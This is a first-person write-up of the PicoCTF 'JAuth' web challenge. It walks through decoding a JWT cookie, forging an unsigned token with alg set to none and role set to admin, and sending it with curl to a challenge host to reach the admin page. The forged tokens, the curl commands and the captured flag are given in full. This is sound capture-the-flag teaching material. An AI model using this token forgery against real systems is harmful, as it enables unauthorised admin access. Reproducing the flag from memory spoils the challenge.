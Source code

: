 # Write up of JAuth PicoCTF problem

This write up of the PicoCTF JAuth challenge is different from others because it is from first-principles. We explain how the clues lead logically to the solution!

## Problem Specification

- AUTHOR: GEOFFREY NJOGU

Most web application developers use third party components without testing their security. Some of the past affected companies are:

- Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
- Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
- VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?
The website is running at [http://saturn.picoctf.net:55824](http://saturn.picoctf.net:55824). Can you become an admin?
You can login as `test` with the password `Test123!` to get started.

### Hints

- Use the web browser tools to check out the JWT cookie.
- The JWT should always have two (2) . separators.

## Local Setup

In this walk-through I am using the FireFox browser. The reason for this is that it has some hacker friendly tricks that the more popular browsers don't have. We shall see this in due course.

## Solution Strategy

Firstly the problem starts talking about famous public web-oriented hacks, and then the first hint is about JWT cookies.
Logically we can combine these two ideas as follows:

1.  Lets try out the given website, and study the JWT cookie.
1.  Lets do research on known vulnerabilities related to the JWT cookie we get.

The note about JWT separators is unusual, so we'll need to come back to that when it is relevant.

## Initial Interaction with the Bank website

1. I launch FireFox and visit http://saturn.picoctf.net:55824
1. It prompts for username and password, so I give it `test` and `Test123!`

We now use the menu option `Tools > Browser Tools > Web Developer Tools`

To find out cookies, we use Diagnostic Tab `Storage` and then on the left use sub-section `Cookies`.

This tells us there is a cookie called `token` whose value is

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjg4MzA4OTY3fQ.aJ_sbLSDUsxHCCbwzF1AwxeSS-AmI4T3dWhhgvkoluU
```

Note that on Firefox you can double click here and actually edit the cookie. This is one reason why Firefox is hacker-friendly.

We know that this is a good cookie in the sense that we managed to login with it. Also the cookie is base64 encoded but with the dot (period) character. It is of the form `A.B.C` where each of A, B, and C and base64 encoded strings. So we note this is called out by the second hint which draws attention to the `.` (period) characters.

## Research

When we look up the public breaches we note that the websites call out various insecure aspects of the technology they used.
So what is potentially insecure about our JWT above?

To find out what we have we can use the JWT debugger website [https://token.dev/](https://token.dev/). By pasting in the above token value we get:

```
Header
{
  "typ": "JWT",
  "alg": "HS256"
}
Payload
{
  "auth": 1688308967209,
  "agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0",
  "role": "user",
  "iat": 1688308967
}
```

A search for JWT Vulnerabilities such as "how to detect if a website uses insecure JWT implementation" yields the website
[Testing JSON Web Tokens](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)

![Guidelines](./WSTG_Guidelines.png)

This is now a direct walkthrough of what we need to do. First switch off security, by setting "alg" to "none", then set the role to "admin", and then omit the signature at the end but retain the trailing period.

Using the JWT debugger website with the Algorithm Drop-Down button set to `none` we can get to:

![Modified JWT](./modifiedJWT.png)

```
Header
{
  "typ": "JWT",
  "alg": "none"
}
{
  "auth": 1688308967209,
  "agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0",
  "role": "admin",
  "iat": 1688308967
}
```

This yields the base64 JWT:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30
```

We then just need to add the trailing period so it remains valid:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30.
```

If we go back into Firefox, having double-clicked the Cookie value, we can paste in the above value, and then press Reload.
It gives us an Admin login with the Flag shown.

![Edited JWT](./editedJWT.png)

There is one final Firefox trick. Clicking on the Network Tab, clicking on the network request (that returned 200) and then right-clicking we can select `Copy Value > Copy as cURL` to get the following:

![getCurl.png](./getCurl.png)

```
curl 'http://saturn.picoctf.net:55824/private' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-GB,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://saturn.picoctf.net:55824/' -H 'Connection: keep-alive' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30.' -H 'Upgrade-Insecure-Requests: 1'
```

This can be pruned down to the essentials to prove we know our solution.

```
curl 'http://saturn.picoctf.net:55824/private' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30.'
```

The result is:

```

<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta
      name="viewport"
      content="width=device-width, initial-scale=1, shrink-to-fit=no"
    />
    <title>Our Bank</title>
    <link
      rel="stylesheet"
      href="https://maxcdn.bootstrapcdn.com/bootswatch/3.2.0/united/bootstrap.min.css"
    />
    <style type="text/css">
      .form-signin {
        width: 100%;
        max-width: 420px;
        padding: 15px;
        margin: auto;
      }
    </style>
  </head>
  <body>
    <div class="text-center">
      <h1>Hello, admin! You have logged in as admin!</h1>
    </div>
    <div class="text-center"><span>picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}</span></div>
    <form class="form-signin" action="/logout" method="GET">
      <div class="text-center mb-4">
        <input type="submit" class="btn btn-danger" value="logout" />
      </div>
    </form>
  </body>
</html>
```

Hence the flag is `picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}`
